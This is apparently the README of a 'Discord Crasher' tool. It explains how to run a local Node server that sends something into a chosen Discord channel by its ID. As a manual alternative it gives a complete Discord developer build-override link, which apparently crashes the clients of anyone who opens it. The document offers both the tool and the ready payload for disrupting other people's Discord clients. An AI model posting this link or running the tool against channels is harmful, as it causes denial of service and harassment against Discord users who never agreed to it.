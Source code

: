 # Discord Crasher
----
## How do I use this?
Either download that shit do `npm i` in the folder and then `node main` then go to `localhost:820` and enter the channelid and press send
----
## Manually?
https://discordapp.com/__development/link?s=hEhKpE5RO5tViZoa4CjQeN3lKj3PeG3KJTuF%2BEtwf4A%3D.eyJ0YXJnZXRCdWlsZE92ZXJyaWRlIjp7ImRpc2NvcmRfd2ViIjp7InR5cGUiOiJicmFuY2giLCJpZCI6InBlcmYvc2Vzc2lvbnMvcmVhZHlfc3VwcGxlbWVudGFsX3RzeCJ9fSwicmVsZWFzZUNoYW5uZWwiOm51bGwsInZhbGlkRm9yVXNlcklkcyI6W10sImV4cGlyZXNBdCI6IlN1biwgMjMgQXVnIDIwMjAgMDY6MDM6NTMgR01UIn0%

there u go
